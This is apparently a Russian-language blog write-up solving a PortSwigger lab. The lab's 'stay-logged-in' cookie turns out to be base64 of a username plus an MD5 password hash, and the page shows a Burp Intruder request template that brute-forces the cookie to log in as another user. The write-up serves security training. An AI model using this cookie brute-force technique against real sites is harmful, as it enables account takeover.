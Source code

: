 ```yaml
---
title: "Brute-forcing a stay-logged-in cookie"
date: 2025-09-25
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie"
classes: wide
---
```


В данной лабе есть функция `Stay logged`. Уязвимость в `cookie` позволит обойти механизм **аутентификации**. Нужно получить доступ к аккаунту `carlos`.Данные для входа: `wiener`:`peter`.

```
https://0a9a005b04645fe381485247005e002e.web-security-academy.net
```

## Solution

Залогинюсь, чтобы получить эту интересную печеньку.

Вот она: `stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`. На первый взгляд похоже на `base64`. Попробую декодировать:

```
cu63:~/ $ echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d                                                                        
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Хмм, попробую подставить другое имя пользователя и зайти:

```
cu63:~/ $ echo "carlos:51dc30ddc473d43a6011e9ebba6ca770" | base64                                                                                       
Y2FybG9zOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcwCg==
```

Не получилось. Нужно подставить правильное значение после `:`.  Значение имеет длину 32. Похоже на длину хешей. Попробую посчитать популярные хеши от пароля `peter`:

```
sha1sum - bb7a1c32dfb1ae40be9560720747d7304ac5228a
md5 - 51dc30ddc473d43a6011e9ebba6ca770
```

Значит сайт использует следующую формулу:

```
base64(login + ':' + md5(password))
```

Соберу атаку в `Intruder`:

```http
GET /my-account HTTP/2
Host: 0a9a005b04645fe381485247005e002e.web-security-academy.net
Cookie: session=gsyx7QdOYc50472BFp6Qy8TiMP0pZEvp; stay-logged-in=§val§
```

Возьму предложенный список паролей от `Port Swigger` [туть](https://portswigger.net/web-security/authentication/auth-lab-passwords). А атаку настрою вот так:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Brute-forcing_a_stay-logged-in_cookie/1.png){: height="200" .align-center}

Начну атаку. В случае успешного токена должен вернуться ответ `200`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Brute-forcing_a_stay-logged-in_cookie/2.png){: height="200" .align-center}

Подошел следующий токен:

```
Y2FybG9zOmFhNDdmODIxNWM2ZjMwYTBkY2RiMmEzNmE5ZjQxNjhl - base64("carlos:" + md5("daniel"))
```

Войду в аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Brute-forcing_a_stay-logged-in_cookie/3.png){: height="200" .align-center}